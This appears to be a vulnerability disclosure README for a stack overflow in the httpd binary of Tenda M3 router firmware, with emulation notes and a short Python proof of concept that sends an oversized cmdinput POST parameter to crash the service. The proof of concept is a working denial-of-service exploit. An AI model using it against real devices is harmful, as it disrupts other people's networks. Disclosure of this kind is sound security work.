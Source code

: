 # Tenda M3 contains Stack Overflow Vulnerability

## overview

- type: stack overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a stack overflow. The vunlerability is in fucntion `formexeCommand` 

![image-20220818231337695](readme.assets/image-20220818231337695.png)

In this function, is copies POST parameter `cmdinput` to stack buffer without checking its length, causing a stack overflow vulnerability. 

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "cmdinput": "a"*0x400
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/exeCommand", data=data, cookies=cookies)
print(res.content)
```

![image-20220818232005637](readme.assets/image-20220818232005637.png)

